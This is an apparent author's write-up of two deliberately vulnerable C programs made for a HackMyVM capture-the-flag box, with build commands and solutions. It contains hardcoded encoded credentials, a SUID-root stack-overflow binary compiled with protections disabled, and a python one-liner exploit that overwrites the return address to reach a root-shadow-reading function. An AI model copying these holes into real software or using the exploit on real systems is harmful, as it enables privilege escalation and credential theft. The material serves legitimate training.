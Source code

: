 **Dated:** 12 Jan 2021\
**Filename:** passwordstrength.c && overspill.c\
**Binary challenge:** I created for **MessedUP** linux box -  **HackMyVM** site

**Name: passwordstrength app**\
On Kali box create vulnerable application by running: `gcc -m32 passwordstrength.c -o passwordstrength.exe`\
Copy the `.exe` to `Debian10 - 32bit`\
Chown it to skinny:skinny & allow all to READ/EXECUTE this.
```c
#include<stdio.h>
#include<string.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>

int main ()
{
char *str = NULL;
FILE * fPtr;

printf("Welcome to ***Password Strength Assessment*** Application v01 \nDesigned by: https://grumpygeekwrites.wordpress.com\n");

fPtr = fopen("3l3.txt", "r");

if(fPtr == NULL)
	    {
	 /* Unable to open file hence exit */
	printf("Unable to open file.\n");
	printf("Please check whether file exists and you have read privilege.\n");
	exit(EXIT_FAILURE);	
	    }

else
{
char c;
while((c=fgetc(fPtr))!=EOF)
{
	 printf("%c",c);
}

        fclose(fPtr);
}

printf("\nPlease enter input:");

scanf("%ms",&str);
  
if (str) 
	{
	printf("Your input was:%s\n",str);
	free(str);
	printf("-_____- Hmmmm let me analzye this -_____- \n");
	sleep(1.25);
	int loop=0;
	int upper=15;
	int lower=3;
	int runtime=0;
	srand(time(0));
	runtime=(rand() % (upper - lower + 1)) + lower;
	for (loop=0;loop<=runtime;loop++)
		{
		printf("\nIam tired, let me sleep please **__** %d",loop);
	       	printf("\nAhhh I hate being ... Ahhhhhhhhh, stop it");
		printf("\nLet me try again ... Although I dont have any energy\n\n");	
		}
	
	printf("Iam going off now, sorry to disappoint you ¯_(ツ)_/¯¯_(ツ)_/¯¯_(ツ)_/¯, will try someother time\n");	
	}

else if (str == "I have a laptop and computer in year2020")
	{
	printf("\n WoW!!! here are some of the notes of 'grumpygeek' regarding passwords");
	printf("\nworstpasswordexamples");
	printf("\nweakpassword 1->  password");
	printf("\nweakpassword 2-> newbie");
	printf("\nweakpassword 3-> KBQWW2LTORQW4CQ=");
	printf("\nweakpassord 4-> MNZGSY3LMV2AU===");

	printf("\ngoodpasswordexamples");
	printf("\nstrongpassword 1-> N.CagewasInConAirMovie");
	printf("\nstrongpassword 2-> KNUG6YLJMJAWW2DUMFZDCMBQL5RG653MONDGC43UBI======");
	printf("\nstrongpassword 3-> NFYHA43FMMXHE33DNNZQ====");
	printf("\nstrongpassword 4-> Pakistani Mangoes are great in taste");
	}

else
	{
	printf("Give me some input please, I am not an idiot :-/");
	}
  return 0;
}
```
**Solution**
> 1. strings passwordstrength.exe
> 1. try base32 decoding strings as one of them is a valid password for user skinny.


**Name: overspill app**\
On Kali box create vulnerable application by running: `gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 overspill.c -o overspill.obj`\
Copy the `overspill.obj` to `Debian10 - 32bit`\
Chown it to root:root & give set the SUID bit set.\
"shadow_backup_sensitiveFile" will have the SHA512 hash of root.

```c
#include <stdio.h>                                                                                                                                          
#include <string.h>                                                                                                                                         
#include <stdlib.h>                                                                                                     
#include <sys/types.h>                                                                                                            
#include <unistd.h>                                                                                                                                         
                                
int main()                                                                                                                        
{                                                                             
int temp=0;                            
char userinput[23];                                                                                                                                         
printf("\n*** Welcome to Overspill software v2.0 ~ by MicrooSooft (° ʖ °)*** \n");                                                                                                                   
printf("\nCreation date: ~19Nov2020");                                                           
printf("\nPlease enter your input:");                                                                                                                       
scanf("%s",&userinput);                    
printf("Your input was -> %s\nNice Input, I liked it\nByeBye (｡◕‿◕｡)\n",userinput);                                                                                           


return 0;                                       
}                                               

void read_sensitive_file(void)                                                                   
{                                               
        printf("\nWTF!!! How the hell, did you get into this secret function\n");                                                                                                                  
        setuid(0);                                     
        setgid(0);                                     

        system("/bin/cat shadow_backup_sensitiveFile");
}
```

**Solution**
> 1. strings overspill.obj (can be skipped)
> 1. readelf -s ./overspill.obj | grep read (notedown the address)
> 1. inside pyhton ---> import pwn; pwn.p32(0x<the address); 
> 1. the above command will convert the address into little endian.
> 1. python -c 'print("A"*35+"<Little Endian HEX address of read_sensitive_file")' | ./overspill.obj

